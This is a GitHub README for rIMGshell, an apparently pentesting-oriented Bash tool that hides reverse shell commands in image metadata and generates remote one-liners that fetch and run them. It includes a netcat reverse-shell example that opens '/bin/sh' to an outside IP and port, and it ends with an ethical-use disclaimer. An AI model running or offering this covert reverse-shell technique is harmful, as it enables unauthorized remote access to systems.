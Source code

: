 # rIMGshell
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/)
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> 
 ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 


<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!



# Description:

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods.

# How It Works:
rIMGshell takes a reverse shell command and an image file as input. It then injects the command into the image using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Covert Command Injection: Inject reverse shell commands into image files.
Multiple Execution Methods: Choose from various one-liner execution methods for retrieving and executing the injected command.
Versatile Compatibility: Works with common Linux command-line utilities such as exiftool, exiv2, identify, file, and jpeginfo.
Secure Communication: Execute commands remotely without revealing their presence in the image.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rIMGshell.

**Warning: Ethical and Responsible Use Only
rIMGshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [MIT License](LICENSE).
